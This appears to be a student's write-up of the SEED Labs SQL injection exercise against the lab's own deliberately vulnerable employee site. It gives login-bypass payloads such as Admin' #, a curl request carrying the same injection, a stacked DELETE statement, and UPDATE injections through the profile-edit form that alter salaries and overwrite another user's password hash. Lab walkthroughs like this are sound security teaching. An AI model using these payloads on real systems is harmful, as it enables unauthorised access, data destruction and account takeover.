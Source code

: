 # SQL Injection Attack


### Task 1:

Log in MYSQL:


      mysql -u root -pseedubuntu
		
      mysql> use Users;
		
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/1.PNG)

      mysql> show tables;
     
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/2.PNG)



Use such a SQL query:

      select * from credential where Name='Alice';


![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/6.PNG)




### Task 2:
##### Task 2.1
	
- USERNAME: "Admin' #"
	
- PASSWORD: "" (here is password is optional)


![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/7.PNG)

We will result in SQL Query


      SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		  
      FROM credential
		  
      WHERE name='Admin' #' && password=''


##### Task 2.2
1- Write Code on Terminator in Seed Lab:
    
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
2- Copy the HTML code.

3- Make a new file in location "file:///home/seed/Documents/temp.html"

4. Run this location on browser



![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/8.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/9.PNG)

##### Task 2.3:
inject statment to append a row to current database:

    	'1=1; DELETE from credential where name='Alice';
	
After running query, go to browser and input as:
	
  
  - USERNAME: "'1=1; DELETE from credential where name='Alice';"
	
  
  - PASSWORD: "" (blank field)




![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/13.PNG)


### Task 3
Run This  "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

##### Task 3.1
1- Login as Username= "Alice'#" && Password = "", 
	
2- Then edit the link to browser
  	http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  
3- Update Phone Number as ', Salary=1000000 and save.


##### Task 3.2

1- Login as Username= 'Boby' #' and then open edit profile
	
2- Update Nick Name: ',Salary=0 and remaining unchanges

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/14.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/15.PNG)
	
Login as Alice
	
Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  
      Update Nick Name: ', Salary=1 where name='Boby' #

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/18.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/19.PNG)

##### Task 3.3:	
We're login as Boby but change password of Alice

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)

Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Assume we want to change ```Boby``` password as ```Annie123```. First, we should get SHA1 value of our new password via Terminal using Command
```
  echo "Annie123"|sha1sum
 ```
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/21.PNG)

Than Modify Nick Name as ', password='2672275fe0c456fb671e4f417fb2f9892c7573ba' where name='Boby' # and save.
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/22.PNG)

Now login information of "Boby" 
- USERNAME : Boby
- PASSWORD : Annie123
